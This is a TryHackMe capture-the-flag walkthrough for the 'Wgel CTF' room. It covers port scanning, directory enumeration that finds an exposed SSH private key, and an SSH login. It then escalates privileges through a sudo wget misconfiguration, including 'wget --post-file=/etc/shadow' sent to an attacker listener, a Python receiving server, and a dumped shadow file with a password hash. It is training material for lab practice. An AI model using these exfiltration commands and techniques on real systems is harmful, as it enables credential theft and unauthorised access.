

---

Name: Wgel CTF
Difficulty: Easy
URL: https://tryhackme.com/room/wgelctf
Category: "TryHackMe"
Description: "A hands-on TryHackMe walkthrough for Solution, covering the approach and key findings."
---

# Solution
We start by scanning for open ports on the server
```bash
rustscan -a wgel.thm --ulimit 5000 -- -sC -sV
```

The server is running SSH on the default port and a webserver
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Going to http://wgel.thm shows the default apache page, so we start enumerating for directories and files



```bash
gobuster dir -u http://wgel.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 5 -x txt,php,html,bak,zip,log -k
```

/sitemap is revealed
```bash
gobuster dir -u http://wgel.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 5 -x txt,php,html,bak,zip,log -k
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wgel.thm
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              zip,log,txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 11374]
sitemap              (Status: 301) [Size: 306] [--> http://wgel.thm/sitemap/]
```


Further enumeration reveals the .ssh directory which contains an id_rsa file
```bash
gobuster dir -u http://wgel.thm/sitemap -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php,html,bak,zip,log -k
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wgel.thm/sitemap
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              zip,log,txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 273]
.hta.zip             (Status: 403) [Size: 273]
.hta.php             (Status: 403) [Size: 273]
.hta.html            (Status: 403) [Size: 273]
.hta.bak             (Status: 403) [Size: 273]
.hta.txt             (Status: 403) [Size: 273]
.hta.log             (Status: 403) [Size: 273]
.htaccess.php        (Status: 403) [Size: 273]
.htaccess.txt        (Status: 403) [Size: 273]
.htaccess            (Status: 403) [Size: 273]
.htaccess.html       (Status: 403) [Size: 273]
.htaccess.bak        (Status: 403) [Size: 273]
.htaccess.log        (Status: 403) [Size: 273]
.htaccess.zip        (Status: 403) [Size: 273]
.htpasswd            (Status: 403) [Size: 273]
.htpasswd.log        (Status: 403) [Size: 273]
.htpasswd.zip        (Status: 403) [Size: 273]
.htpasswd.txt        (Status: 403) [Size: 273]
.htpasswd.php        (Status: 403) [Size: 273]
.htpasswd.html       (Status: 403) [Size: 273]
.htpasswd.bak        (Status: 403) [Size: 273]
.ssh                 (Status: 301) [Size: 311] [--> http://wgel.thm/sitemap/.ssh/]
about.html           (Status: 200) [Size: 12232]
blog.html            (Status: 200) [Size: 12745]
contact.html         (Status: 200) [Size: 10346]
css                  (Status: 301) [Size: 310] [--> http://wgel.thm/sitemap/css/]
fonts                (Status: 301) [Size: 312] [--> http://wgel.thm/sitemap/fonts/]
images               (Status: 301) [Size: 313] [--> http://wgel.thm/sitemap/images/]
index.html           (Status: 200) [Size: 21080]
index.html           (Status: 200) [Size: 21080]
js                   (Status: 301) [Size: 309] [--> http://wgel.thm/sitemap/js/]
```

Download that file
```bash
http://wgel.thm/sitemap/.ssh/id_rsa
```

Give it the correct permissions
```bash
chmod 600 id_rsa
```

We have the key, but we are missing the username, we have to look for it. Going back to the default page and searching for comments reveals

```html
 <!-- Jessie don't forget to udate the webiste -->
```

We can connect to the server via SSH now
```bash
ssh -i id_rsa jessie@wgel.thm
```

And read the flag
```bash
jessie@CorpOne:~$ cat Documents/user_flag.txt
REDACTED
```

Lets look at what jessie can run with sudo
```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

We can exfiltrate any file we want with it, [GTFOBINS](https://gtfobins.org/gtfobins/wget/)
```bash
sudo /usr/bin/wget --post-file=/etc/shadow http://10.112.69.230:8000/
```

Start a server to listen for the POST request
```bash
python3 post_server.py
```
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get("Content-Length", 0))
        data = self.rfile.read(length)

        print("=" * 60)
        print(data.decode(errors="replace"))
        print("=" * 60)

        self.send_response(200)
        self.end_headers()

HTTPServer(("0.0.0.0", 8000), Handler).serve_forever()
```

Here are its contents
```txt
root:!:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:17954:0:99999:7:::
uuidd:*:17954:0:99999:7:::
lightdm:*:17954:0:99999:7:::
whoopsie:*:17954:0:99999:7:::
avahi-autoipd:*:17954:0:99999:7:::
avahi:*:17954:0:99999:7:::
dnsmasq:*:17954:0:99999:7:::
colord:*:17954:0:99999:7:::
speech-dispatcher:!:17954:0:99999:7:::
hplip:*:17954:0:99999:7:::
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```

Now we can get the flag, its name is likely root_flag.txt, considering the user flag was user_flag.txt
```bash
jessie@CorpOne:/usr/bin$ sudo /usr/bin/wget --post-file=/root/root_flag.txt -O /dev/null http://10.112.69.230:8000/
```

![> [!NOTE]
> Creating a listener was not necessary, the easiest way would have been to use this method, which prints the flag directly
>
> sudo wget -i /root/root_flag.txt]
